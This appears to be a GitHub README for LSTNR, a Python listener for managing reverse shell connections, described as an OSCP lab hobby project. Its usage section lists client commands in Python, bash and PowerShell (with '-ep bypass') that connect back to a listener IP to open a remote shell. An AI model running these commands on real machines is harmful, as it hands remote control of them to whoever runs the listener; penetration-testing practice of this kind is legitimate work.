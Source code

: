 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE

1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`

<img width="509" alt="Screenshot 2024-12-30 at 8 17 42 PM" src="https://github.com/user-attachments/assets/375e9059-e448-412c-8677-cac252d1da63" />

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
OR

      - `bash client.sh -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
